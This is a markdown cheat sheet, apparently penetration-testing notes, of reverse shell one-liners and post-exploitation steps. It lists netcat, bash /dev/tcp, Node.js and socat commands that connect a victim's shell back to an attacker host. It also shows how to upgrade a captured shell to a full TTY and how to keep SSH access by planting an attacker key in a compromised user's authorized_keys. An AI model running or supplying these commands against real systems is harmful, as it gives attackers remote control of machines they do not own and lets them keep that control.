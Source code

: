 # Shells

## Netcat (nc)  

Some version of netcat do not have the `-e` switch avaiable.  On these you can pipe the commands into netcat.  

Server:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT  > /tmp/f
```
Client:  
`nc -lvp PORT`

## Bash  
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`  

## Node.js  
`require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/192.168.49.170/80+0>%261"')`
  
# Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
**In existing reverse shell**  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```
in zsh  
```
stty raw -echo; fg <enter><enter>
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
**SSH**  


1. Create a .ssh directory in the home directory of the compromised user.
2. Create a new keypair on the attacker machine using `ssh-keygen` 
3. Transfer the public key to the victim machine at save in the .ssh folder as `authorized_keys`
4. Apply the appropriate file permissions  
```
chmod 0700 /home/user/.ssh  
chmod 0644 /home/user/.ssh/authorized_keys
```
6. SSH into the system using the private key.
